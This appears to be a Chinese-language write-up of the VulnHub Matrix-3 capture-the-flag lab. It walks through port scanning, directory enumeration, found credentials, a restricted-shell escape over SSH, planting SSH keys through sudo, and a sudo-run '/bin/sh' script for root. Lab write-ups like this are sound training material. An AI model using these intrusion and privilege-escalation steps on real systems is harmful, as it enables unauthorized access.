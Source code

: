 # Matrix-3

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Matrix-3（IP：192.168.56.109）

下载：https://www.vulnhub.com/entry/matrix-3,326/

## Let's go

```
nmap -p- -A 192.168.56.109
```

![](./img/Matrix3-01.png)

> **审查网页发现兔子，并且提供了有用的信息**

![](./img/Matrix3-02.png)

![](./img/Matrix3-03.png)

> **由于目录太深这里我直接使用wget递归下载**

```
wget -r -l 0 http://192.168.56.109/Matrix/
tree Matrix | grep -v index.html
```

![](./img/Matrix3-04.png)

```
file secret.gz
cat secret.gz
```

![](./img/Matrix3-05.png)

![](./img/Matrix3-06.png)

> **使用用户名和密码成功登录7331端口，然而并没有发现什么信息，我们进行枚举**

```
dirb http://192.168.56.109:7331/ -u admin:passwd
```

![](./img/Matrix3-07.png)

![](./img/Matrix3-08.png)

> **发现是DOS文件，使用IDA查看得到 guest:7R1n17yN30 **

![](./img/Matrix3-09.png)



> **尝试SSH登陆发现得到受限shell，因此使用-t "bash --noprofile"重新登陆**

```
ssh guest@192.168.56.109 -p 6464 -t "bash --noprofile"
```

![](./img/Matrix3-10.png)

```
sudo -l
```

![](./img/Matrix3-11.png)

```
sudo -u trinity cp authorized_keys /home/trinity/.ssh/authorized_keys
ssh trinity@127.0.0.1 -p 6464
```

![](./img/Matrix3-12.png)

```
sudo -l
```

![](./img/Matrix3-13.png)

> **然而并没有发现该文件，因此我们可以创建并执行它**

```
echo '/bin/sh' > oracle
chmod 777 oracle
sudo ./oracle
```

![](./img/Matrix3-14.png)

```
cat flag.txt
```

![](./img/Matrix3-15.png)